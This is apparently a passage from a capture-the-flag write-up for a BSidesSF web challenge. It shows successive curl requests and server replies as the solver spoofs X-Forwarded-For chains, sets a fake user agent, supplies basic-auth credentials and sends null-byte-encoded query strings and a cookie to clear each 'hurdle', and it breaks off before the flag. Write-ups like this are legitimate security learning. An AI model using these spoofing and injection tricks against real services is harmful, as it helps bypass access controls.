 I'm sorry, I was expecting this to be forwarded through 10.5.4.3
```

```
$ curl -i -H "X-Forwarded-For: 127.1.1.1,127.1.1.1,10.5.4.3" -A "1337 Browser v.9001" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 10
date: Tue, 09 Mar 2021 23:43:21 GMT
content-length: 66
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear

I'm sorry, I was expecting this to be forwarded through 19.18.0.1
```

```
$ curl -i -H "X-Forwarded-For: 127.1.1.1,127.1.1.1,10.5.4.3,19.18.0.1" -A "1337 Browser v.9001" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 10
date: Tue, 09 Mar 2021 23:43:45 GMT
content-length: 67
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear

I'm sorry, I was expecting the forwarding client to be 13.37.37.13
```

```
$ curl -i -H "X-Forwarded-For: 13.37.37.13,127.1.1.1,127.1.1.1,10.5.4.3,19.18.0.1" -A "1337 Browser v.9001" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 9
date: Tue, 09 Mar 2021 23:44:00 GMT
content-length: 44
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear

I'm sorry, I was expecting a Fortune Cookie
```

```
$ curl -i -b "Fortune=TEST" -H "X-Forwarded-For: 13.37.37.13,127.1.1.1,127.1.1.1,10.5.4.3,19.18.0.1" -A "1337 Browser v.9001" --basic -u username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62 -XPUT "https://higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/%21%21?retrieve=flag&%26%3D%26%3D%26=%2500%0a"
HTTP/2 401
x-hurdles-remaining: 9
date: Tue, 09 Mar 2021 23:44:38 GMT
content-length: 123
content-type: text/plain; charset=utf-8
via: 1.1 google
alt-svc: clear

